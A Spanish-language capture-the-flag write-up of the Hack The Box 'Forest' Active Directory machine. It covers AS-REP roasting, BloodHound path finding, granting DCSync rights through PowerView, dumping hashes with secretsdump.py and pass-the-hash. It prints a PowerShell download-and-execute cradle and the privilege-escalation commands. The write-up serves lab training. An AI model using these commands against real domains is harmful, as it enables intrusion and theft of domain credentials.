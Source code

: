 ```yaml
---
layout: post
title: HTB - Forest
author: Al3xt0r
date: 2023-08-13
tags: [Active Directory, HTB, CTF, WriteUp]
---
```

{:.lead}

![](/assets/img/HTB_Forest/F0.png)

Esta maquina es de las primeras que nos sugiere la plataforma **Hack The Box**, para practicar **`Active Directory`**, es una maquina de dificultad **Easy**, pero aun asi... Tiene mucho que ofrecer.

Como siempre, comenzaremos con el **Port Scanning**:
![](/assets/img/HTB_Forest/F1.png)

Podemos apreciar que tendremos muchos puertos abiertos, por lo que podemos deducir que estamos contra un sistema operativo **Microsoft-Windows**, aunque esto tambien lo podemos saber por el TTL al momento de enviar un pauquete con el comando **ping**.

Nos queda ver los servicios y las versiones usadas para el servicio, por lo que tiramos del nmap:
```bash
nmap -sCV -p"Puertos" <IP>
```
![](/assets/img/HTB_Forest/F2.png)

Desde aqui ya podemos ir viendo datos interesantes, como lo puede ser un dominio **htb.local**, pero para asegurarnos usaremos herramientas de reconocimiento, como lo puede ser **Crackmapexec**
![](/assets/img/HTB_Forest/F3.png)

Podemos apreciar que se repite el mismo dominio: **"htb.local"**, por lo que lo podemos agregar al archivo del **/etc/hosts**, tambien vemos que posiblemente tengamos vias potenciales por el servicio **WinRM**.

Pero si queremos listar archivos o informacion por medio del SMB, no vamos a ver nada:
![](/assets/img/HTB_Forest/F4.png)

Aqui es donde entra una herramienta que nos trae por defecto sistemas como Parrot o Kali: **GetNPUsers.py**
![](/assets/img/HTB_Forest/F5.png)

Como nos reporta la informacion, vamos  a usar una de sus funciones, especificamente la primera, pero vamos a necesitar listar un usuario valido... Asi que lo vamos a listar sin pasarle ningun parametro:
![](/assets/img/HTB_Forest/F6.png)
Asi que ya  vamos a poder tener su TGT:
![](/assets/img/HTB_Forest/F7.png)
Entonces nos quedaria aplicarle Brute Force a al TGT que acabamos de obtener:
![](/assets/img/HTB_Forest/F8.png)
Vemos que tenemos credenciales para el usuario **svc-alfresco**, asi que veremos si nos da un **pwned** con Crackmapexec:

![](/assets/img/HTB_Forest/F9.png)

Usamos la herramienta **evil-winrm** para conectarnos usando las credenciales que acabamos de obtener:
![](/assets/img/HTB_Forest/F10.png)

Una vez lograda la intrusion como usuario de bajos privilegios, nos toca llegar al usuario administrador, por lo que necesitaremos de una herramienta que nos liste vias potenciales para logarlo... Aqui es donde entra **BloodHound**

Iniciaremos **Neo4j**, y luego abriremos BloodHound para vinculara a la base de datos del Neo4j.
![](/assets/img/HTB_Forest/F11.png)
Una vez en la maquina necesitaremos de una herramienta:

* [Sharphound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)

La compartiremos a la maquina, existen varias formas... Yo use esta:

```powershell
Invoke-WebRequest -Uri "<IP>/SharpHound.ps1" -OutFile "Directorio en la maquina"
```
Otra puede ser:

```powershell
IEX(New-Object Net.WebClient).downloadString('http://ruta-del-archivo/mi-script.ps1')
```

Como sea, lo ejecutamos y obtendremos informacion que cargaremos al BloodHound en formato **.zip**
![](/assets/img/HTB_Forest/F12.png)

Una vez cargado en el **BloodHound**, nos dirigimos al usuario del que tenemos credenciales para ver rutas que nos permitan elevar nuestros privilegios:
![](/assets/img/HTB_Forest/F13.png)

Si vemos la rama que nos lleva directamente al usuario administrador vemos que existe un privilegio que poseemos, este nos permite modificar el **DACL**.

![](/assets/img/HTB_Forest/F14.png)

BloodHound nos va a dar una pista de como conseguir escalar privilegios:

![](/assets/img/HTB_Forest/F15.png)

Primero, veremos los grupos disponibles:
![](/assets/img/HTB_Forest/F16.png)

* Vemos que tenemos disponible el "Exchange Windows Permissions"

Entonces lo que haremos a continuacion es crear un usuario y agregarlo a ese grupo:

```powershell
net user <Usuario> <Password> /add /domain
net group "NOMBRE DEL GRUPO" <usuario> /add
```
![](/assets/img/HTB_Forest/F17.png)

Nos quedaria aplicar lo que nos dice BloodHound:

```powershell
$SecPassword = ConvertTo-SecureString '<Password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\user', $SecPassword)
```

* Ahora bien, necesitaremos importar un binario en Powershell, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Una vez obtenido el binario, procuraremos a importarlo:

```powershell
Import-Module ./<Nombre del binario>
# Acto seguido Corremos el siguiente comando:
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'htb.local\Domain Admins' -PrincipalIdentity <Usuario> -Rights DCSync
```
![](/assets/img/HTB_Forest/F18.png)

Por lo que nos quedaria dumpear la informacion, empleando la herramienta **"secretsdump.py"**

```bash
secretsdump.py htb.local/<USER>@10.10.10.161
```
![](/assets/img/HTB_Forest/F19.png)

Como podemos ver, hemos dumpeado los hashes del administrador, por lo que ahora nos quedaria hacer un **"pass the hash"**:

![](/assets/img/HTB_Forest/F20.png)

# FIN

